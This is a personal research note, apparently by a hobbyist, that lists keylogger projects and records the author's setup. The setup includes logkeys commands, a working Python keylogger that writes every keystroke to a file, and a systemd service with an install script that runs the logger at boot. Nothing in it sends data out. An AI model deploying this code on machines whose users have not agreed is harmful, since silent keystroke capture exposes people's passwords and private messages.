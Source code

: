 ```yaml
---
id: 4zI7TCRVN4AqHOJlschIv
title: research
desc: ''
updated: 1628449250371
created: 1628449250371
---
```

# Keylogger Software
*   List of keyloggers I was able to get to work
    *   [Bad display name "" when running via ssh · Issue #6 · moses-palmer/pynput](https://github.com/moses-palmer/pynput/issues/6)
    *   [How to Make a Keylogger in Python - Python Code](https://www.thepythoncode.com/article/write-a-keylogger-python)
    *   [keylogger · PyPI](https://pypi.org/project/keylogger/)
    *   [raspbian - How to start a python script at boot - Raspberry Pi Stack Exchange](https://raspberrypi.stackexchange.com/questions/108694/how-to-start-a-python-script-at-boot)
*   Links to Keyloggers I could not get to work
    *   [gsingh93/keylogger: A keylogger written in Rust](https://github.com/gsingh93/keylogger)
    *   [GiacomoLaw/Keylogger: A simple keylogger for Windows, Linux and Mac](https://github.com/GiacomoLaw/Keylogger)
    *   [deadblackclover/keylogger: Register various user actions - keystrokes on the computer keyboard, movements and mouse keystrokes](https://github.com/deadblackclover/keylogger)
*   The Key logger I want to use is called LogKeys but I could not get the correct key mapping
    *   [How to Monitor Keyboard Keystrokes Using 'LogKeys' in Linux](https://www.tecmint.com/how-to-monitor-keyboard-keystrokes-using-logkeys-in-linux/)
        *   Troubleshoot → [Linux keyboard event capturing /dev/inputX - Stack Overflow](https://stackoverflow.com/questions/2775461/linux-keyboard-event-capturing-dev-inputx)

    /proc/bus/input/devices
    
    ls -l /dev/input/by-id
    
    sudo logkeys -d event3 --export-keymap /home/dentropy/Documents/Software/keylogger/keymap.txt
    
    sudo logkeys -d event3 --keymap /home/dentropy/Documents/Software/keylogger/keymap.txt  -s
    
    sudo logkeys -d event3 --us-keymap -s

    # keylogger.py
    import keyboard # for keylogs
    from datetime import datetime
    
    # https://www.thepythoncode.com/article/write-a-keylogger-python
    # https://github.com/boppreh/keyboard#keyboard.hook
    
    class Keylogger:
        def callback_pressed(self, event):
            # print(event.name)
            # print(event.event_type)
            with open(f"./test-keylog.txt", "a") as f:
                event_string = str(datetime.now().isoformat()) + " " + event.event_type + " "+  event.name
                print(event_string, file=f)
        def start(self):
            keyboard.hook(callback=self.callback_pressed)
            keyboard.wait()
    if __name__ == "__main__":
        keylogger = Keylogger()
        keylogger.start()
    

    # install.sh
    #!/bin/bash
    sudo cp keylogger.service /etc/systemd/system/keylogger.service
    sudo systemctl enable keylogger.service
    sudo systemctl start keylogger.service

    # keylogger.service
    [Unit]
    Description=Keylogger Service
    After=multi-user.target
    
    [Service]
    ExecStart=/usr/bin/python3 /home/dentropy/Software/keylogger/keylogger.py /home/dentropy/Software/keylogger/keylogger.out
    
    [Install]
    WantedBy=multi-user.target

